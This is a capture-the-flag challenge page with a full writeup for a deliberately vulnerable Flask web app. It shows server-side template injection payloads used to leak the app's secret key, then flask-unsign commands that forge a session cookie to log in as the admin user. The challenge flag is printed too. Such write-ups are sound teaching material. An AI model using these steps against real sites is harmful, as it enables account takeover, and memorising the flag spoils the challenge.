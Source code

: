 # Not So Secret

p.s. For testing, go to [INSTALL.md](https://github.com/MasonCompetitiveCyber/PatriotCTF2022-Public/blob/main/Web/Not%20So%20Secret/INSTALL.md)

### Description
I am in the process of making the next big social media platform but I have a history of implementing software insecurely. If you can get into the admin user, I will give you a flag. 

Someone hacked my site after I read their message, so I am no longer reading DMs send to me! >:( On top of that, I am imposing an even harsher special character filter because I don't actually know how to patch my code.

p.s. To save you some time, don't try getting a reverse shell

### Difficulty
Medium

### Flag
`PCTF{y0u_can_s1gn_my_c00k13s_anyt1m3_;)}`

### Hints
1. Template injection
2. Sign your own cookie

### Author
Daniel Getter (NihilistPenguin)

### Tester
None yet

### Writeup

This web app is vulnerable to template injection. After signing up, send a test SSTI message `{{7*7}}`:
<p align="center"><img src="https://github.com/MasonCompetitiveCyber/PatriotCTF2022-Public/raw/main/writeup-images/49.png" width=40%  height=40%></p>

We see that 7*7 was evaluated to 49, so we have successful template injection. There is a filter in place blocking these characters: `._[]|\`. This is so you can't attempt to execute python code to run system commands 'cause I want it solved another way.

In flask, we can have it give us the config file with this `{config}`, so let's try that:
<p align="center"><img src="https://github.com/MasonCompetitiveCyber/PatriotCTF2022-Public/raw/main/writeup-images/ssti_config.png" width=40%  height=40%></p>

We see a `SECRET_KEY` set to `ifXEaNLEiDLIuquyRKzfeJJWzntoIm`. If we have the app's secret key, we can sign the session cookies used by the app. We'll use a tool called `flask-unsign` to do this for us (install w/ `pip3 install flask-unsign`).

Let's first decode our user's session cookie so we know the format. I use the Firefox extension `cookie editor` to do all of this:
<p align="center"><img src="https://github.com/MasonCompetitiveCyber/PatriotCTF2022-Public/raw/main/writeup-images/cookie_editor.png" width=40%  height=40%></p>

```console
$ flask-unsign --decode --cookie '.eJwlzjsOwjAMANC7ZGaIndiJe5nKvwjWlk6Iu1OJ_Q3vU_Z15Pks2_u48lH2V5StEHbpo3Nd1RqKDOuGWmUluufsPsBXDCRkng2gpbCBV01iEFgJLaoKhladZIBhrp2oUYwZrlNU0smYbjTnwMHALcAdsy6LckeuM4__Bsv3B3oyLwQ.YieZSw.Fox-K5Pj1Zq30KG5ZngqBFzRce8'

{'_fresh': True, '_id': '524947460f0b32997b4b2a09fe2cce84c71cfd72526683113e96b1c0ae56191fe13d0a92da0a85b12dbca45535d78dca89a9ec5b65a92887276163d1cc2e0fbd', '_user_id': '2'}
```
We see that the `_user_id` key has a value of `2`. We can assume that the admin user's `_user_id` must be `1`. Let's sign our new key:

```console
$ flask-unsign --sign --cookie "{'_fresh': True, '_id': '524947460f0b32997b4b2a09fe2cce84c71cfd72526683113e96b1c0ae56191fe13d0a92da0a85b12dbca45535d78dca89a9ec5b65a92887276163d1cc2e0fbd', '_user_id': '1'}" --secret 'ifXEaNLEiDLIuquyRKzfeJJWzntoIm'

.eJwlzjsOwjAMANC7ZGaIndiJe5nKvwjWlk6Iu1OJ_Q3vU_Z15Pks2_u48lH2V5StEHbpo3Nd1RqKDOuGWmUluufsPsBXDCRkng2gpbCBV01iEFgJLaoKhladZIBhrp2oUYwZrlNU0smYbjTnwMHALcAdsy6LckeuM4__Bsr3B3ovLwM.YieaAA.nYGnkeNzCLq7xT-gp_KWw8lrFrs
```

The final step is to change our session cookie value to the one we just got, and reload the webpage. We should be admin and have access to the admin panel:
<p align="center"><img src="https://github.com/MasonCompetitiveCyber/PatriotCTF2022-Public/raw/main/writeup-images/ssti_flag.png" width=60%  height=60%></p>
